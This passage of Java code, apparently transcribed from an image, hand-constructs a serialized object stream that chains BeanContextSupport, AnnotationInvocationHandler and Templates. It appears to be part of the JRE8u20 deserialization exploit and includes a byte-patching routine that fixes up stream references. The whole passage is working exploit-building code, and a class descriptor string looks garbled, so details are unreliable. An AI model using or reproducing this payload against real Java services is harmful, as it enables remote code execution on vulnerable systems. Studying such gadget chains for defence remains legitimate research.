 ```java
             (byte)'L',"h",TC_STRING,"Ljava/lang/reflectInvocationHandler;",
             TC_ENDBLOCKDATA,TC_NULL,

             //classData
             TC_OBJECT,
             TC_CLASSDESC,
             BeanContextSupport.class.getName(),
             -4879613978649577204L,
             (byte)(SC_SERIALIZABLE | SC_WRITE_METHOD),
             (short)1,
             (byte)'I',"serializable",
             TC_ENDBLOCKDATA,

             //super class
             TC_CLASSDESC,
             BeanContextChildSupport.class.getName(),
             6328947014421475877L,
             SC_SERIALIZABLE,
             (short)1,
             (byte)'L',"beanContextChildPeer",
             TC_STRING,"Ljava/beans/beancontext/BeanContextChild;",
             TC_ENDBLOCKDATA,
             TC_NULL,

             //classdata
             TC_REFERENCE,baseWireHandle+25, //beanContextChildPeer
             1, //serializable

             //readChildren
             TC_OBJECT,
             TC_CLASSDESC,
             "sun.reflect.annotation.AnnotationInvocationHandler",
             6182022883658399397L,       // serialVersionUID
             (byte) (SC_SERIALIZABLE | SC_WRITE_METHOD),
             (short) 2,                  // field count
             (byte) 'L', "memberValues", TC_STRING, "Ljava/util/Map;",   // memberValues field
             (byte) 'L', "type", TC_STRING, "Ljava/lang/Class;",         // type field
             TC_ENDBLOCKDATA,
             TC_NULL,                    // no superclass

             map,                        // memberValues field value
             Templates.class,            // type field value

             //deserialize
             TC_BLOCKDATA,
             (byte) 4,                   // block length
             0,                          // no BeanContextSupport.bcmListenes
             TC_ENDBLOCKDATA,

             //h

             TC_REFERENCE,baseWireHandle+29,
             TC_ENDBLOCKDATA

        };
        
        public static byte[] patch(byte[] bytes) {
    for (int i = 0; i < bytes.length; i++) {
        if (bytes[i] == 0x71 && bytes[i+1] == 0x00 && bytes[i+2] == 0x7e && bytes[i+3] ==0x00) {
            i = i + 4;
            System.out.print("Adjusting reference from: " + bytes[i]);
            if (bytes[i] == 1) bytes[i] = 4; //
            if (bytes[i] == 0x0a) bytes[i]=0x0d; //templates
```